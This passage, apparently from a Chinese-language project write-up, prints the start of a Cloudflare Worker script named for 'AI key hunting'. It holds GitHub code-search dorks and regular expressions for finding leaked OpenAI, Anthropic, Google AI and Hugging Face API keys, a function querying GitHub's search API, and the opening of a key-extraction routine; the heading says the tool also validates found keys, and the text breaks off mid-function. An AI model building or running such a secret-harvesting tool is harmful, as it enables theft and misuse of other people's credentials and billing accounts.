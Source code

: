#### **3. 核心逻辑代码: `src/index.js`**

这是项目的灵魂，包含了所有路由、认证、搜索、提取和验证的逻辑。它被设计为单个文件，便于部署。

```javascript
import { Router, error, json } from 'itty-router';

// =================================================================================
// STAGE 1 & 2: 搜索与提取模块 (Discovery & Extraction)
// =================================================================================

const SEARCH_CONFIG = {
	OpenAI: {
		dorks: [
			'("OPENAI_API_KEY" OR "sk-") AND (path:*.py OR path:*.js OR path:*.json OR path:*.yml OR path:*.toml OR path:.env)',
			'"sk-" language:python "import openai"',
		],
		regex: /sk-[a-zA-Z0-9]{48}/g,
	},
	Anthropic: {
		dorks: [
			'"ANTHROPIC_API_KEY" OR "sk-ant-api03-" path:.env',
			'"from anthropic import Anthropic" "sk-ant-" language:python',
		],
		regex: /sk-ant-api03-[a-zA-Z0-9_-]{95}/g,
	},
	"Google AI": {
		dorks: [
			'"GOOGLE_API_KEY" OR "AIzaSy" (filename:config.js OR filename:application.properties)',
			'GenerativeModel("gemini-pro") "AIzaSy"',
		],
		regex: /AIza[0-9A-Za-z\\-_]{35}/g,
	},
	"Hugging Face": {
		dorks: ['"HF_TOKEN" OR "hf_" path:.env', 'HuggingFaceHub "hf_"'],
		regex: /hf_[a-zA-Z0-9]{35}/g,
	},
};

// 使用 GitHub API 进行代码搜索
async function searchGitHub(dork, githubToken) {
	const url = `https://api.github.com/search/code?q=${encodeURIComponent(dork)}`;
	const response = await fetch(url, {
		headers: {
			'User-Agent': 'CF-AI-KEY-HUNTING',
			'Authorization': `token ${githubToken}`,
			'Accept': 'application/vnd.github.v3+json',
		},
	});
	if (!response.ok) {
		console.error(`GitHub API Error: ${response.status} ${await response.text()}`);
		return [];
	}
	const data = await response.json();
	return data.items || [];
}

// 提取密钥
async function extractKeys(serviceName, githubToken) {
	const config = SEARCH_CONFIG[serviceName];
	if (!config) return [];

	let potentialKeys = new Map(); // 使用 Map 去重
```